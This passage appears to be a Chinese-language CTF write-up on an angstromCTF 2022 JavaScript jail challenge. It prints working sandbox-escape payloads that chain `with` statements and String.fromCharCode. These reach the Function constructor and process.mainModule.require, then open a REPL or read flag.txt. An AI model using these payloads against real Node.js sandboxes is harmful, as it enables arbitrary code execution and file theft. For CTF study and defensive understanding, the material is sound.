 看了 [Maple](https://blog.maple3142.net/2022/05/03/angstromctf-2022-writeups/) 的 payload 才發現 with 巢狀會被蓋掉的方法可以用 `with(a=source,/b/)` 繞掉，舉例來說：

``` js
with(/a/)with(/b/)console.log(source)
```

你只能拿到 `/b/.source`，拿不到 a 的，因為屬性同樣名稱。所以你可以這樣寫：

``` js
with(/a/)with(a=source,/b/)console.log(a,source)
```

直接在第二個 with 裡面先用 `a=source` 去拿到上一個 with 的屬性。

除了 with 以外，還利用了 `require('repl').start()` 這個神奇的內建模組，簡單來說就是開啟 repl 模式，之後你想執行什麼就執行甚麼，可以擺脫字元的限制。底下是他的 payload：


``` js
with(/with(process)with(mainModule)with(require(x))start()/)
  with(s1=source,/x/)
  with(s2=source,/repl/)
  with(s3=source,this)
    with(constructor)
      constructor(s2,s1)(s3)
```

作者的解法是這樣，沒有用到 regexp：

``` js
with(String)
  with(f=fromCharCode,this)
    with(constructor)
      with(constructor(f(r=114,101,t=116,117,r,110,32,112,r,111,99,101,s=115,s))())
        with(mainModule)
          with(require(f(102,s)))
            readFileSync(f(102,108,97,103,46,t,120,t))
```

這個解法利用了一堆暫存變數來節省字元，這招也很聰明，結合了 Maple 的解法的話就變成：

``` js
with(String)
  with(f=fromCharCode,this)
    with(constructor)
      with(constructor(f(r=114,e=101,t=116,117,r,110,32,p=112,r,111,99,e,s=115,s))())
        with(mainModule)
          with(require(f(r,e,p,108)))
            start()
```

然後雖然大家很愛用 `this.constructor.constructor`，但理解原理就會知道第一個 `constructor` 只是為了拿到 function，可以找一下 object 上有哪些東西：

``` js
for(let key of Object.getOwnPropertyNames((obj={}).__proto__)) {
  if (typeof obj[key] === 'function') {
    console.log(key)
  }
}
```
